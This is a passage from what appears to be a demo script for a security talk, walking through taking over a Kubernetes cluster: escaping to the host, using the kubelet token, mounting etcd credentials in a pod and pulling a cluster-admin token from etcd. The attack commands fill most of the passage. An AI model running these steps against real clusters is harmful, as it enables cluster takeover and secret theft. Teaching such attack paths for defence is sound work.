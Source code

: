 ```console
chroot /chroot
ps ax
```

SLIDE 22 - show host node

### STAGE 5 - GAIN CONTROL OVER THE CLUSTER

As we now have the host filesystem on the node we have access to the kubelet token, which has much wider permissions than the service account tokens we've been using up until this point.

```console
export KUBECONFIG=/etc/kubernetes/kubelet.conf
kubectl get pods -n kube-system
kubectl get nodes
```

SLIDE 24 kube-system namespace

Note that none of our other tokens let us do this, this is the kube-system namespace where the control plane for the entire cluster is running. We can also see the nodes, which is very useful to us, and we can find out where all of our kube-system pods are running. However ...

```console
kubectl run -i --tty busybox --image=busybox --restart=Never -- sh
Error from server (Forbidden): pods "busybox" is forbidden: pod does not have "kubernetes.io/config.mirror" annotation, node "kind-worker" can only create mirror pods
```

This command fails because the kubelet token still doesn't have all the permissions needed to start containers in the kube-system namespace. The mirror pods line is interesting here, since it would allow us to launch any pod we want directly in kube-system by putting a YAML file into `/etc/kubernetes/manifests` on the node. This would then give us many attack vectors against the other control plane pods in the kube-system namespace

However, because we've escaped the Pod Security Policy and we now know which nodes we have, we can actually attack on a different vector at this point. We're going to launch a pod to the node hosting etcd, and in the Pod configuration we're going to mount the host filesystem to give us the credentials to connect to etcd. 

Show the YAML for the etcdclient pod. Note the specified node, and the credential mounting. 

`kubectl apply -f demo_yamls/etcdclient.yaml`

Now we can run etcdclient and check if we have a connection to etcd

`kubectl exec etcdclient -- etcdctl member list`

SLIDE 25 Show etcdclient pod connecting to etcd

Etcd contains a lot of interesting information about the cluster, not least of which is secrets.

`kubectl exec etcdclient -- etcdctl get '' --keys-only --from-key | grep secrets`

There is a role here which has cluster-admin rights by default, let's see if we can get that token :

`k exec etcdclient -- etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-jvl8m`
